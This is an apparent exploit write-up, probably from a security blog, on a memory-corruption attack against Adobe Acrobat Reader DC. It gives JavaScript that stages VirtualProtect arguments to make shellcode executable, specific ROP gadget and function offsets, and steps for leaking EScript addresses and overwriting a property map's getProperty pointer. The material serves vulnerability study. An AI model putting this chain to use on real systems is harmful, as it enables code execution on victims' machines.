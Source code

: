 ```jsx
writeUint32(rw, newStackAddr + 0x8, StartAddr + 0x18);  //  Arg1 : Start address of the memory
writeUint32(rw, newStackAddr + 0xC, shellcodesize);     //  Arg2 : Size of the memory
writeUint32(rw, newStackAddr + 0x10, 0x40);             //  Arg3 : Memory protection constant: 0x40 (execute permission)
writeUint32(rw, newStackAddr + 0x14, StartAddr + 0x14); //  Arg4 : Pointer to store the previous protection constant

// 5. try to access unknown property
// => call overwritten getProperty(ROP Gadget) in vtable
var foo = rw.execFlowHijack;
```

- Important variables or values are stored at the following locations:
    1. The ROP Gadget is located at a specific offset within the `EScript.api` file, with the offset being fixed relative to the base of `EScript.api`. In version 21.005.20048.43252 of Adobe Acrobat Reader DC, the offset of the ROP Gadget is `0x1050AE`.
        
        `0x1050AE: mov esp, 0x5d000001; ret;`
        
    2. The new stack is at the location where the `esp` is moved by the ROP Gadget in step 1: `0x5d000001`. This area must be within the sprayed heap space for the exploit to proceed.
    3. In our exploit code, the shellcode is positioned at `r/w primitive's location + 0x18`.

---

- The process of leaking addresses, manipulating specific memory values, and executing the exploit is as follows:
    1. Perform information leakage to facilitate the exploit.
        1. Obtain the base address of `EScript`.
            1. Use the memory structure of JSObject (e.g., DataView) as described in [JS Object - SpiderMonkey](https://whs-segfault.github.io/adobe/2024/08/22/JS-Object-SpiderMonkey.html) to obtain an address somewhere within `EScript`.
            2. Subtract the offset (0x277548) identified via IDA from the address obtained in step 1 to calculate the base address of `EScript`.
        2. Identify the offset of the VirtualProtect function in `EScript` and `kernel32.dll` using IDA (= 0x1B0060).

            ![image](https://github.com/user-attachments/assets/1ed7932a-9893-4a6e-ba85-24af14ab6b04)
            
            **[Figure 7] VirtualProtect function call stored in the idata segment**
            
            - The VirtualProtect function grants execution permissions to the area where the shellcode is stored, allowing the shellcode to run correctly.
            
            *Note: The .idata section refers to the import table.*
            
        3. Calculate the address of the VirtualProtect function in `kernel32.dll`.
            1. Use the base address of `EScript` obtained in step a and the offset to find the address of the VirtualProtect function called by `EScript.api`.
            2. Access the address obtained in step i to calculate the virtual address (VA) of the VirtualProtect function in `kernel32.dll`.
        4. Leak the address of the vtable.
            1. Use the memory structure of JSObject (e.g., DataView) as described in [JS Object - SpiderMonkey](https://whs-segfault.github.io/adobe/2024/08/22/JS-Object-SpiderMonkey.html) to obtain the address of the property map used by `EScript`.
    2. Modify the property map to point to the ROP Gadget.
        1. Alter the address of the `getProperty` function in the property map of the `rw DataView` object to the address of the ROP Gadget.
            